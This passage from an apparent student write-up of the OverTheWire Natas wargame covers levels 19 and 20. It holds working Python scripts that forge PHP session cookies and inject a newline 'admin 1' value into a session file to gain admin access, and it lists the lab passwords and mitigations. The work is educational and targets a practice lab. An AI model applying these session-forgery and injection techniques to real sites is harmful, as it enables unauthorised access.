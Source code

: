 ```natas19.py```
    print(i)

    s = requests.Session()
    s.auth = auth
    req = s.get("http://natas19.natas.labs.overthewire.org/index.php",
                cookies={"PHPSESSID": s_id, "admin": "1"})

    if "You are an admin." in req.text:
        results = req.text.split()
        print(results[results.index("Password:") + 1])
        break
```

#### What sins are evidenced in this challenge
Sin #4, Sin #12, Sin #21

#### How could those sins be mitigated
Use 128-bit+ Session IDs 
Use unpredictable session IDs
Use encrypted session IDs with a proper expiration date
Use internal tracking to tell which users are admins



---
### Natas 20

#### Credentials
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ

#### How you passed the challenge
1) I looked in the source code and saw that the custom session handler only had my_read and my_write
2) I saw that my_write puts all alphanumeric chars into a file based off of the session ID 
3) I also saw that my_read will parse the name, then any line after will be split based on spaces and the first two items will be set to key=val respectively in the session.
4) I wrote the following script to input a name followed by ```\n admin 1```, get the session ID, then call a get request with the admin-based session ID to get the password
```natas20.py```
```py
import requests

auth = ('natas20', 'eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF')

data = {"name": "\nadmin  1"}

req = requests.post("http://natas20.natas.labs.overthewire.org/index.php",
                    data=data, auth=auth)
session_ID = req.cookies.get_dict()

s = requests.Session()
s.auth = auth
req = s.get("http://natas20.natas.labs.overthewire.org/index.php",
            cookies=session_ID, auth=auth)

results = req.text.split()
print(results[results.index("Password:") + 1])
```
